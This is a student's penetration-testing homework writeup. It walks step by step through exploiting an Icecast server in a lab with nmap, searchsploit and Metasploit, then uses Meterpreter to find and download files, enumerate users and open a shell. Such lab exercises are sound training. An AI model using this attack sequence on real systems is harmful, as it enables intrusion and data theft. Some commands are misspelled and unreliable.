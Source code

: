 
# Rob Myers: Week 17 Homework: Penetration Testing 2

This week I was given access the Icecast server, a free  software for streaming multimedia. 

For a full review of the findings here is a copy of the after action report:

[REPORT](IMAGE/Report1.PDF)

Below is commands and exploits used to demonstrate vulnerabilities on the Icecast Server: 

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

    * Run the Nmap command that performs a service and version scan against the target.

        ### Answer: **nmap -sS -sV -O -Pn 192.168.0.20**

   ### [nmap-Pictures](IMAGE/OS.md) 
        

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    * Run the SearchSploit commands to show available Icecast exploits.

       ### Answer: **searchsploit Icecast**

    ### [Searchsploit Pictures](IMAGE/search.md)


3. Now that we know which exploits are available to us, let's start Metasploit:

    * Run the command that starts Metasploit:

        ### Answer: **msfconsole**

    ### [Starting metasploit Pictures](IMAGE/meta1.md) 

4. Search for the Icecast module and load it for use.

    * Run the command to search for the Icecast module:

        ### Answer: **search Icecast**

     ### [Search Icecast Pictures](IMAGE/meta.md) 

    * Run the command to use the Icecast module:

        ### Answer: **use 0** 

    ### [Use the Icecast Module Picture](IMAGE/meta2.md)     

5. Set the RHOST to the target machine.

    * Run the command that sets the RHOST:

       ### Answer: **set RHOSTS 192.168.0.20** 

     ### [Set the RHOSTS Picture](IMAGE/meta3.md)  

6. Run the Icecast exploit.

    * Run the command that runs the Icecast exploit.

    ### Answer: **RUN**

    ### [Running the Exploit Picture](IMAGE/meta4.md) 

    * Run the command that performs a search for the secretfile.txt on the target.

    ### Answer: **search -f * secretfile * .txt**

    ### [Searching for Secretfile.txt Picture](IMAGE/meta5.md)  

7. You should now have a Meterpreter session open.

    * Run the command to perform a search for the recipe.txt on the target:

    ### Answer: **search -f * recipe * .txt**

    ### [Searching for recipe Picture](IMAGE/meta6.md) 

    * Run the command that exfiltrates the recipe*.txt file:

    ### Answer: **download c/Users/IEUsers/Documents/Drinks.recipe.txt**


    ### [Exfiltrates command for recipe.txt](IMAGE/meta7.md) 

    ### [Common Meterpreter Commands](IMAGE/meta8.md) 


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    * Run the command to use Meterpreters's local exploit suggester 

    ### [Meterpreter Explit Suggester](IMAGE/meta9.md)  

    ### Answer: **run post/multi/recon/local_explit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.

### Answer: **run post/windows/gather/enum_logged_on_users** 

### [View ALL logged on Users](IMAGE/meta10.md)  


B. Open a Meterpreter shell.

### Answer: **shell** 

### [Document the Shell Command](IMAGE/meta11.md) 

C. Run the command that displays the target's computer system information:

### Answer: **sysinfo** 

### [sysinfo information](IMAGE/meta11.md)










    